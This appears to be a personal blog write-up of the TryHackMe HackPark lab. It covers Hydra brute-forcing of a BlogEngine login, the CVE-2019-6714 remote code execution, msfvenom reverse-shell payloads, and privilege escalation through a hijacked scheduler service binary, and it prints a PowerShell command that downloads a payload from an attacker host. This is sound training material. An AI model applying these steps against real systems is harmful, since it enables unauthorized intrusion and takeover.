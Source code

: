```yaml
---
title: HackPark Writeup | TryHackMe
date: 2022-01-20 00:00:00 +/-TTTT
categories: [Writeup, TryHackMe]
tags: [writeup, tryhackme, windows, cve-2019-6714, rce, winpeas]
author:
  name: v3r4x
---
```


## Overview

This is my writeup for the HackPark room on TryHackMe.  This room involves bruteforcing a site's login with Hydra, identifying and using a public exploit to gain access and then escalate your privileges.

This is a intermediate room so if you are more of a beginner, then this may be to challenging.  If you are new to Windows exploitation in general, I would recommend attempting the [Steel Mountain](/ctf-writeups/Steel Mountain) or [Alfred](/ctf-writeups/Alfred) rooms.

## How to Access

I compelted this room on TryHackMe.  You can access it [here](https://tryhackme.com/room/hackpark).

## Steps

#### Information Gathering

As always, I begin with an nmap scan:

```
$ nmap -sC -sV -oN scans/initial -Pn 10.10.237.113
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 00:01 BST
Nmap scan report for 10.10.237.113
Host is up (0.044s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2021-05-22T22:49:47
|_Not valid after:  2021-11-21T22:49:47
|_ssl-date: 2021-05-23T23:01:42+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.14 seconds
```

As shown above, there is a website running on port 80.  The main page shows a picture of **pennywise** (the 1990 version):

![mainpage](/assets/posts/20220120/1_mainpage.png)

As I inspected the website, `gobuster` detected a login page:

![gobuster](/assets/posts/20220120/2_gobuster.png)

Navigating to this page shows a generic login form for BlogEngine:

![login form](/assets/posts/20220120/3_login_form.png)

#### Using Hydra to Bruteforce a Login

After trying a few default credential combinations, I booted up BurpSuite to intersept the requests as I log in:

![burpsuite](/assets/posts/20220120/4_burp_suite.png)

I then used Hydra to bruteforce the password for the admin user:

![hydra](/assets/posts/20220120/5_hydra.png)

#### Gaining Access

After I logged in, I found that the site is running Blog Engine version **3.3.6**.  Using searchsploit, I found that this version is vulnerable to remote code injection (RCE):

![searchsploit](/assets/posts/20220120/6_searchsploit.png)

I then copied this exploit (**CVE-2019-6714**) to my working directory and changed the listening IP address.  I then navigated to `http://<machine ip>/admin/app/editor/editpost.cshtml` and uploaded the file.  To do this, I created a Python HTTP server in the directory where the exploit was stored:

![upload](/assets/posts/20220120/7_upload.png)

Next, I nagivated to the base URL for the blog and overrided the theme `http://10.10.108.108/?theme=../../App_Data/files`.  This triggers the vulnerability.

I used netcat to catch the callback:

![netcat](/assets/posts/20220120/8_netcat_callback.png)

Running `whoami` on the machine shows that I am logged in as `iis apppool\blog`.  

#### Compromise the Machine

Even though I have gained access to the machine, the current shell is quite unstable.  So let's update the shell.  I did this by creating a payload through `msfvenom`:

![creating payload](/assets/posts/20220120/9_creating_payload.png)

I then uploaded this file to the system using powershell:

![uploading payload](/assets/posts/20220120/10_uploading_payload.png)

I also loaded up `msfconsole` and ran `use exploit/multi/handler` to catch the callback:

![upgraded shell](/assets/posts/20220120/11_updated_shell.png)

I then ran `sysinfo` and discovered that this system is running the **Windows 2012 R2 (6.3 Build 9600)** operating system.

![sysinfo](/assets/posts/20220120/12_sysinfo.png)

#### Privilege Escalation with Metasploit

At this point, you have to perform more enumeration on the machine in order to find points of vulnerability.  Although I managed to find the vulnerable binary, I was unable to find the abnormal service without looking at other writeups.  The abnormal service is **WindowsScheduler**.

I found the vulnerable binary by checking `C:\Program Files (x86)\SystemScheduler`:

![vulnerable binary](/assets/posts/20220120/13_vulnerable_binary.png)

Using this information, I created another payload using `msfvenom` and called it `Message.exe`:

![message.exe](/assets/posts/20220120/14_message_exe.png)

I then uploaded it using the `upload` command:

![uploading message.exe](/assets/posts/20220120/15_uploading_message_exe.png)

I then had to replace the binary which was already on the system:

![replacing binary](/assets/posts/20220120/16_replacing_binary.png)

Finally, I set up netcat once again to catch the callback when the new file was executed:

![netcat callback](/assets/posts/20220120/17_netcat_callback.png)

Now, I am logged in as the admin user with full privileges.  So, I then retrieved both flags (user.txt and root.txt):

![user.txt](/assets/posts/20220120/18_user_flag.png)

![root.txt](/assets/posts/20220120/19_root_flag.png)

#### Privilege Escalation without Metasploit

It is entirely possible to escalate your privileges without metasploit.  I did this by creating a similar payload using `msfvenom`:

![new payload](/assets/posts/20220120/20_new_payload.png)

I then powershell to upload the new payload to the `C:\Windows\Temp` directory:

```
C:\Windows\Temp> powershell -c "Invoke-WebRequest -Uri 'http://10.9.150.161:80/shell.exe' -OutFile shell.exe"
```

As before, I created a Python HTTP server where the new payload was stored.  

To enumerate the machine, I then uploaded winPEAS (download [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)).

Once uploaded, I executed winPEAS and found that this system was originally installed on **8/3/2019, 10:43:23 AM**.

And that's it!

## Summary and Feedback

This was a very challenging room, especially as I am fairly new to Windows exploitation.  I had quite a lot of difficulty actually finding the answer to some of the tasks (even with hints).  I would definitely recommend attempting other rooms, particularly if you're new to Windows exploitation.
